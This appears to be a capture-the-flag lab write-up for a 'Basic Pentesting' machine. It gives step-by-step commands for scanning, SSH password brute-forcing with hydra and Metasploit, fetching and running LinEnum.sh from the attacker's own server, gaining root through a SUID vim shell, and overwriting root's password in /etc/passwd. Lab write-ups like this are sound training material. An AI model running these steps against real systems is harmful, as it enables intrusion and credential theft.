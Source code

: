 # BASIC PENTESTING

```
export IP=10.10.126.249
```

```
nmap -sC -sV -oN nmap.out $IP 
```

open ports (nmap.out):
```
22/tcp   open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13       syn-ack Apache Jserv (Protocol v1.3)
8080/tcp open  http        syn-ack Apache Tomcat 9.0.7
```

```
gobuster dir -u $IP -w /opt/dirbuster/directory-list-2.3-medium.txt -x php,py,html,css,cgi,txt,js -o gobuster.out
```
directories (gobuster.out):
```
/.html                (Status: 403) [Size: 293]
/index.html           (Status: 200) [Size: 158]
/development          (Status: 301) [Size: 320] [--> http://10.10.100.203/development/]                               
```

```
gobuster dir -u $IP:8080 -w /opt/dirbuster/directory-list-2.3-medium.txt -x php,py,html,css,cgi,txt,js -o gobuster8080.out
```
directories (gobuster8080.out):
```
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/tomcat.css           (Status: 200) [Size: 5581]
```

```
/opt/enum4linux/enum4linux.pl -a $IP | tee enum4linux.out
```
users (enum4linux.out):
```
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

```
nikto -h $IP | tee nikto.out
```
nikto.out:
```
+ Server: Apache/2.4.18 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Server may leak inodes via ETags, header found with file /, inode: 9e, size: 56a870fbc8f28, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
+ /development/: Directory indexing found.
+ /development/: This might be interesting.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ 8074 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2023-09-10 15:05:00 (GMT-3) (2736 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

metasploit:
```
grep login search ssh
use 49
set RHOSTS 10.10.126.249
set user_pass /opt/seclists/Passwords/Common-Credentials/10k-most-common.txt
run
```

hydra:
```
hydra -l jan -P /opt/seclists/Passwords/Leaked-Databases/rockyou.txt ssh://10.10.126.249   
```
```
hydra -l kay -P /opt/seclists/Passwords/Leaked-Databases/rockyou.txt ssh://10.10.126.249   
```

results:
```
[22][ssh] host: 10.10.126.249   login: jan   password: armando  

(kay's password still not found)
```
login into jan's system:
```
ssh jan@$IP
armando
```
open a server, upload LinEnum.sh from your machine and download it in the target machine:

```
python3 -m http.server 3333
``` 
```
cd /tmp/
wget http://my_ip:3333//LinEnum.sh
chmod 777 LinEnum.sh
./LinEnum.sh
```

Basic.Vim is listed as SUID. Open Vim and enter !sh to open a shell with root privileges, then generate a new password and replace root's password in /etc/passwd:

```
openssl passwd -1 -salt root 123
vim /etc/passwd
su root
123
```
now, as root, go to home/kay and read the "pass.bak" file

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```